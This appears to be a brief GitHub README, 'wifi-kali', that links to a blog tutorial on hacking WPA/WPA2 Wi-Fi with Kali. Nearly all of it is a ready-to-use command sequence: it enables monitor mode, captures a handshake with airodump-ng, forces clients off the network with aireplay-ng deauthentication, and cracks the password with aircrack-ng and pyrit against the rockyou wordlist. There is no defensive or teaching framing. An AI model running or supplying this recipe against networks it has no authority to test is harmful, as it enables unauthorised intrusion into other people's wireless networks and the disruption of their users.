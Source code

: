 # wifi-kali

http://lewiscomputerhowto.blogspot.com/2014/06/how-to-hack-wpawpa2-wi-fi-with-kali.html

### CRACKBEGIN
airmon-ng start wlan0
airodump-ng wlan0mon
airodump-ng -c 1,1 --bssid {bsid1} -w /home/mon0 wlan0mon
aireplay-ng -0 2 -a {bsid1} -c {bsid2} wlan0mon
aircrack-ng -a2 -b {bsid3} -w /root/wpa.txt /root/Desktop/*.cap
airmon-ng stop wlan0mon

pyrit -r BSSID.cap analyze
pyrit -i ./rockyou.txt import_passwords
pyrit -e BSSID create_essid
#pyrit eval
pyrit batch

### CRACKEND
